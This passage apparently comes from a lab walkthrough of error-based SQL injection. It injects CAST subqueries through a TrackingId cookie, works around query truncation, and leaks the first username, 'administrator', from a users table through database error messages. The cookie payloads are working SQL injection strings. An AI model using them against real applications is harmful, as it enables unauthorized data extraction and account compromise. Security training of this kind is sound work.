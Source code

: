 It said the argument after the `AND` operator must be the boolean type (for example `1=1` or `1=2`) which would return the value `TRUE` or `FALSE` → Insert a conditional statement before the `CAST()` function to convert the returned value from `int` to `boolean`

```html
Cookie: TrackingId=6ZElStfg70FsBqDN' AND CAST((SELECT 1) AS int)=1--
```

Verify that error message disappears

************NOTE!!************

In cases, when the `TrackingId` or other argument has longer length → It could cause a character limit error such as:

```html
<p class=is-warning>
	Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '6ZElStfg70FsBqDN' AND 999999999999999999=CAST((SELECT 1) AS '. Expected  char
</p>
```

Notice that the displayed query in the error message is truncated which means the application does not read through the whole query statement

⇒ To avoid this, delete the previous `TrackingId` or any argument that take the most places in the query. For example:

```
Cookie: TrackingId=' AND 999999999999999999=CAST((SELECT 1) AS int)--
```

Back to the lab!

Adapt the `SELECT` statement so that it could retrieve the username from the database:

```
Cookie: TrackingId=' AND CAST((SELECT username FROM users) AS int)=1--
```

Another error message returns:

```html
<p class=is-warning>
	ERROR: more than one row returned by a subquery used as an expression
</p>
```

`more than one row returned by subquery` → Verify that the query is currently valid and is not truncated anymore but the returned value is more than 1 (row) → There is no place to display the data

Modify the request to limit the returned row:

```
Cookie: TrackingId=' AND CAST((SELECT username FROM users LIMIT 1) AS int)=1--
```

Observe that the error message now leaks the first username from `users` table

```html
<p class=is-warning>
	ERROR: invalid input syntax for type integer: "administrator"
</p>
```
